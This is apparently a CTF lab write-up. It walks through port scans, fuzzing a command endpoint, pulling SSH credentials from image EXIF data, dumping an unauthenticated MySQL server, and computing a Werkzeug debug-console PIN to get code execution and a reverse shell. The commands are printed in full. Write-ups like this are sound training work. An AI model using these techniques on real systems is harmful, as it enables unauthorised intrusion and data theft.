


# Nmap external

Running a portscan on the host.

```bash
nmap -T4 10.214.1.12 -p28080,22222,22121,30000-30009 -sV -Pn
```
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-17 12:38 CEST
Nmap scan report for 10.214.1.12
Host is up (0.067s latency).

PORT      STATE  SERVICE        VERSION
22121/tcp closed unknown
22222/tcp open   ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
28080/tcp open   http           Werkzeug httpd 3.1.3 (Python 3.11.14)
30000/tcp closed ndmps
30001/tcp closed pago-services1
30002/tcp closed pago-services2
30003/tcp closed amicon-fpsu-ra
30004/tcp closed amicon-fpsu-s
30005/tcp closed unknown
30006/tcp closed unknown
30007/tcp closed unknown
30008/tcp closed unknown
30009/tcp closed unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Only SSH and HTTP seems to be open, the rest of the given ports are closed.

# Http

The website can run certain commands.


As `ls` works, we can extract the available binaries and check what is avaliable.


```bash
curl -s -X POST 'http://10.214.1.12:28080/' --data-raw 'cmd=ls /usr/local/bin /usr/local/sbin /usr/local/bin /usr/sbin /usr/bin /sbin /bin' | sed -n '/<pre/,/<\/pre>/p' > fuzz.txt
ffuf -w fuzz.txt -u http://10.214.1.12:28080/ -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'cmd=FUZZ' -t 10 -fr 'Try again'
```


Only a few commands are okay::
* ls
* pwd
* whoami

Dirbuster also reveals an image and console endpoint. 
```dirb
dirb http://10.214.1.12:28080/ -z 10
```
```
---- Scanning URL: http://10.214.1.12:28080/ ----
+ http://10.214.1.12:28080/console (CODE:400|SIZE:167)
+ http://10.214.1.12:28080/image (CODE:200|SIZE:129)
```

The image is just showing the [supadoopaflag.jpg](workdir/supadoopaflag.jpg).


The console endpoint returns an error.

# Exiftool

Checking the image metadata reveals `kMTaJ8XR1SDCMV` in some of the data. 

```bash
exiftool -x 'File:*' supadoopaflag.jpg
```
```
ExifTool Version Number         : 13.25
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 72
Y Resolution                    : 72
Artist                          : kMTaJ8XR1SDCMV
XP Author                       : kMTaJ8XR1SDCMV
Padding                         : (Binary data 268 bytes, use -b option to extract)
About                           : uuid:faf5bdd5-ba3d-11da-ad31-d33d75182f1b
Creator                         : kMTaJ8XR1SDCMV
Image Size                      : 1200x627
Megapixels                      : 0.752
```

# SSH

The user from the web service and the string from the image metadata are actually SSH credentials. 

```bash
sshpass -p kMTaJ8XR1SDCMV ssh webuser@10.214.1.12 -p 22222
sshpass -p kMTaJ8XR1SDCMV ssh webuser@10.214.1.12 -p 22222 -t /bin/bash --norc
```


Checking [userflag.txt](workdir/userflag.txt) in the home folder is just an SVG image with a QR code. It points to [tinyurl](https://tinyurl.com/3z6uwatv) and then [youtube](https://www.youtube.com/watch?v=dQw4w9WgXcQ) with the official rickroll.


# Sudo
Logging in has some restrictions. The `/etc/bash.bashrc` has the following extra.

```
alias sudo='echo "Nice try, my friend 8)"'
alias unalias='echo "UUU ALMOST!!"'
alias alias='echo "You thought, I did not changed this??"'
```

The `/usr/bin/sudo` was also renamed to `sudo.real` and replaced with a sinple print.

```
-e #!/bin/bash
echo "sudo has gone"
```

Apart from these, `sudo` is not useful.

# FTP

There are signs that there was an FTP service on the machine as well. It would correspond with the other listed ports on the challenge, but it never started. See [vsftpd.conf](workdir/vsftpd.conf) and [supervisord.log](workdir/supervisord.log).

There is an obfuscated javascript [e.js](workdir/e.js) in the upload folder the FTP was configured for. It is just a `vigenere` function, possibly another decoy.

# Nmap internal

Doing another portscan internally reveals some more (docker) hosts.

```bash
./nmap -T4 172.18.0.1/24 -p1-65535
```
```
Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2025-10-20 10:27 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.18.0.1
Host is up (0.00029s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
4004/tcp  open  unknown <- VPN chall http, CQ25{c0mmun1cat10n_ch3ck}
5355/tcp  open  hostmon
22121/tcp open  unknown
22222/tcp open  unknown
28080/tcp open  unknown
30000/tcp open  unknown
30001/tcp open  unknown
30002/tcp open  unknown
30003/tcp open  unknown
30004/tcp open  unknown
30005/tcp open  unknown
30006/tcp open  unknown
30007/tcp open  unknown
30008/tcp open  unknown
30009/tcp open  unknown

Nmap scan report for ced6d93eea0b (172.18.0.2)
Host is up (0.000085s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap scan report for challenges-db-1.challenges_internal_net (172.18.0.3)
Host is up (0.00041s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE
3306/tcp  open  mysql
33060/tcp open  unknown

Nmap scan report for challenges-web-1.challenges_internal_net (172.18.0.4)
Host is up (0.00064s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
8080/tcp open  http-alt
```

# MySQL

The `root` user has empty password on the database server.

```bash
mysql -h 172.18.0.3 -P 3306 -u root --password=
mysqldump -h 172.18.0.3 -P 3306 -u root --password= --all-databases > all_databases.sql
```

But the actual database is empty, it is just the default structure. The `secure_file_priv` is also set, so no option for code execution.

```
mysql> SHOW databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
4 rows in set (0.01 sec)

mysql> SHOW VARIABLES LIKE "secure_file_priv";
+------------------+-----------------------+
| Variable_name    | Value                 |
+------------------+-----------------------+
| secure_file_priv | /var/lib/mysql-files/ |
+------------------+-----------------------+
1 row in set (0.01 sec)
```


# Werkzeug console

The console endpoint can be fixed by using `localhost`.

```bash
curl -v -X POST http://10.214.1.12:28080/console -H 'Host: localhost'
```
It is a [Werkzeug debug console](https://werkzeug.palletsprojects.com/en/stable/debug/), but it is PIN locked. 



The console is using a deterministic algorithm to generate the PIN with some private and public information, which can be gathered from the system. The only catch is that there are only 10 attempts available.
* probably_public_bits
  + The username from the webapp: `webuser`
  + `flask.app`
  + `Flask` 
  + The full path from the file listing primitive: `/usr/local/lib/python3.11/site-packages/flask/app.py`
* private_bits
  + MAC address (as int) from the arp table on the other host: `138686757136594`
  + Machine id from `/proc/sys/kernel/random/boot_id` also on the other host which is shared on docker, and the rest for this is empty: `7f02bfec-f327-4896-8695-dd8e7f8936c7`


The PIN `127-380-526` with [pin.py](workdir/pin.py) was generated, and it got accepted. Allowing full code execution through subprocess, like below.

```python
print(subprocess.check_output(["sh", "-c", "whoami"], text=True))
```


Also spawning a reverse shell and looking around revealed nothing else on this host.



# Flag
The challenge was probably broken, the database was missing the content.